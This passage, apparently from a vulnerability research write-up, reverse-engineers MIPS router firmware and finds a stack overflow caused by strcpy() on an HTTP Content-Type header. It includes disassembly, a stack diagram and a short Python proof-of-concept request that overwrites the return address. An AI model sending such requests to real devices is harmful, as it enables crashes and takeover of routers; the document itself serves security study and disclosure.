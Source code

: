 This function is insecure since it _likely_ takes raw user input and copies it onto the stack before any error checking. The Ghidra function decompilation of the first `strcpy()` looks weird but is more understandable from the raw MIPs disassembly:

```assembly
FUN_801609d4:
801609d4  b0 ff bd 27  addiu sp, sp, -0x50
801609d8  44 00 bf af  sw ra, 0x44(sp)
801609dc  40 00 b0 af  sw s0, 0x40(sp)
801609e0  25 80 80 00  or s0, a0, zero
801609e4  25 20 a0 03  or a0, sp, zero
801609e8  7d 60 00 0c  jal _strcpy
801609ec  34 0c 05 8e  lw a1, 0xc34(s0)
```

The stack pointer is moved down by `0x50` and then the return address and caller saved register `s0` are saved on the stack. Next the current stack pointer (remember the stack grows down!) is passed in as the first argument (`a0`) to a `strcpy()`. The second argument to `strcpy()` is passed in through the [MIPS branch delay instruction](https://en.wikipedia.org/wiki/Delay_slot) as the argument passed in to `FUN_801609d4` with some pointer math. This pointer math is adding `0xC34` to this argument and then dereferencing it. This is likely a C structure being passed in and `FUN_801609d4` is just updating a piece of it. The rest of the function `FUN_801609d4` seems to be checking for the string `application/x-httpd-cgi` and parsing that data. However, this isn't important since the first `strcpy()` gives the user full control of the stack if `iParm1` is something under user control.

## Exploit the HTTP buffer overflow

### Try to Crash the Kernel

The string `application/x-httpd-cgi` is a MIME Type for the [HTTP Content-Type](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Type) request header. By _assuming_ the input for this header is directly passed into `FUN_801609d4`, the following Python can be crafted to test the buffer overflow theory:

```python
import requests

URL = 'http://192.168.2.1/home.htm'

header = 'application/x-httpd-cgi'
filler = 'A' * (0x48 - len(header))
PAYLOAD = '{0}{1}'.format(header, filler)
resp = requests.post(URL, headers = {
    'Content-Type': PAYLOAD
})
```

In this exploit, the header is passed such that it overflows the buffer and overwrites the return address of the caller of `FUN_801609d4` to `0xAAAAAAAA`. This is illustrated in the stack outline for `FUN_801609d4`:

```
+---------------------+ <- sp + 0x54 (high memory)
|    caller's stack   |
+---------------------+ <- sp + 0x50
|        unused       |
+---------------------+ <- sp + 0x4C (first element on FUN_801609d4's stack)
|        unused       |
+---------------------+ <- sp + 0x48
|    return address   |
+---------------------+ <- sp + 0x44
|          s0         |
+---------------------+ <- sp + 0x40
|      buffer end     |
+---------------------+ <- sp + 0x3C
|        buffer       |
```